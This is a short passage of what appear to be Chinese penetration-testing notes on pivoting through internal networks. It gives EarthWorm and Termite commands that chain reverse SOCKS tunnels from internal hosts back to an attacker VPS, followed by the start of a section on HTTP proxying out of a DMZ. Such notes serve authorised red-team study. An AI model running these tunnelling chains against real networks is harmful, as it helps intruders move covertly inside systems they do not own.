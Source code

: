 
1. EW:

```bash
VPS: ew -s rcsoskc -l 1080 -e 888

A: ew -s lcx_slave -d VPS的IP -e 888 -f 10.48.128.12 -g 999

B: ew -s lcx_listen -l 999 -e 777

C: ew -s rssocks -d 机器B的IP -e 777
```

2. Termite

```bash
VPS: ./agent_exe -l 888

A主机: ./agent_exe -c VPS的IP -p 888

VPS: ./admin_exe -c 127.0.0.1 -p 888

//B主机开启一个监听
B: ./agent_exe -l 999  

//在管理员中跳转到A节点
goto 2 
//连接到B主机
connect B机器的IP  999 

C: ./agent_exe -l 777

//跳转到B主机节点
goto 3  
//在B节点连接C主机
connect C机器的IP 777  

或者在C节点直接连接B:

goto 3 //跳到B
listen 666

C: ./agent_exe -c B机器的IP 666
```


-------------------------------------------------------


# HTTP service代理

若目标是在DMZ中，只有WEB数据能出来的时候就用HTTP的代理

> 见redrain大佬的[内网渗透随想](http://128.199.223.185/drops/tips-5234.html)（http://drops.wooyun.org/tips/5234）：
